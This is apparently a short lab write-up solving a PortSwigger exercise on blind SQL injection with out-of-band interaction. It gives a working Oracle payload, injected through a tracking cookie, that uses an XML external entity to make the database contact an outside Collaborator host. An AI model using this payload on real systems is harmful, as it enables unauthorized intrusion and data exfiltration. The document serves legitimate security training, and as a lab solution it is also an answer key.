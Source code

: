 # [Lab: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band)

## Lab

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

## manual

1. Blind sqli detection based on time delay:
    - all fail
2. Blind sqli detection based on OOB interaction, `copy to clipboard` a collaborator subdomain:
    - oracle: `TrackingId='+OR+'1'%3d'1'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--;`
    - => Lab Solved
